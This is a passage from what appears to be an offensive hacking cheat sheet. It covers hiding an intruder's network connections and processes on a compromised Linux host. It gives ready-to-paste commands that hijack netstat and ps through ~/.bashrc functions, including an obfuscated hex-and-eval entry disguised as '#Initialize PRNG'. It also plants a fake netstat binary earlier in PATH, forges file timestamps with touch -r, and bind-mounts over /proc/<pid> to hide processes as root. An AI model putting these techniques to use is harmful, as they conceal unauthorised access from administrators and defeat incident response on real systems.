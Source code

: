 <a id="bash-hide-connection"></a>
**1.iv. Hide a Network Connection**

The trick is to hijack `netstat` and use grep to filter out our connection. This example filters any connection on port 31337 _or_ ip 1.2.3.4. The same should be done for `ss` (a netstat alternative).

**Method 1 - Hiding a connection with bash-function in ~/.bashrc**

Cut & paste this to add the line to ~/.bashrc
```shell
echo 'netstat(){ command netstat "$@" | grep -Fv -e :31337 -e 1.2.3.4; }' >>~/.bashrc \
&& touch -r /etc/passwd ~/.bashrc
```

Or cut & paste this for an obfuscated entry to ~/.bashrc:
```shell
X='netstat(){ command netstat "$@" | grep -Fv -e :31337 -e 1.2.3.4; }'
echo "eval \$(echo $(echo "$X" | xxd -ps -c1024)|xxd -r -ps) #Initialize PRNG" >>~/.bashrc \
&& touch -r /etc/passwd ~/.bashrc
```

The obfuscated entry to ~/.bashrc will look like this:
```
eval $(echo 6e65747374617428297b20636f6d6d616e64206e6574737461742022244022207c2067726570202d4676202d65203a3331333337202d6520312e322e332e343b207d0a|xxd -r -ps) #Initialize PRNG
```

**Method 2 - Hiding a connection with a binary in $PATH**

Create a fake netstat binary in /usr/local/sbin. On a default Debian (and most Linux) the PATH variables (`echo $PATH`) lists /usr/local/sbin _before_ /usr/bin. This means that our hijacking binary /usr/local/sbin/netstat will be executed instead of /usr/bin/netstat.

```shell
echo -e "#! /bin/bash
exec /usr/bin/netstat \"\$@\" | grep -Fv -e :22 -e 1.2.3.4" >/usr/local/sbin/netstat \
&& chmod 755 /usr/local/sbin/netstat \
&& touch -r /usr/bin/netstat /usr/local/sbin/netstat
```

*(thank you iamaskid)*

<a id="hide-a-process-user"></a>
**1.v. Hide a process as user**

Continuing from "Hiding a connection" the same technique can be used to hide a process. This example hides the nmap process and also takes care that our `grep` does not show up in the process list by renaming it to GREP:

```shell
echo 'ps(){ command ps "$@" | exec -a GREP grep -Fv -e nmap  -e GREP; }' >>~/.bashrc \
&& touch -r /etc/passwd ~/.bashrc
```

<a id="hide-a-process-root"></a>
**1.vi. Hide a process as root**

This requires root privileges and is an old Linux trick by over-mounting /proc/&lt;pid&gt; with a useless directory:
```sh
hide() {
    [[ -L /etc/mtab ]] && { cp /etc/mtab /etc/mtab.bak; mv /etc/mtab.bak /etc/mtab; }
    _pid=${1:-$$}
    [[ $_pid =~ ^[0-9]+$ ]] && { mount -n --bind /dev/shm /proc/$_pid && echo "[THC] PID $_pid is now hidden"; return; }
    local _argstr
    for _x in "${@:2}"; do _argstr+=" '${_x//\'/\'\"\'\"\'}'"; done
    [[ $(bash -c "ps -o stat= -p \$\$") =~ \+ ]] || exec bash -c "mount -n --bind /dev/shm /proc/\$\$; exec \"$1\" $_argstr"
    bash -c "mount -n --bind /dev/shm /proc/\$\$; exec \"$1\" $_argstr"
}
```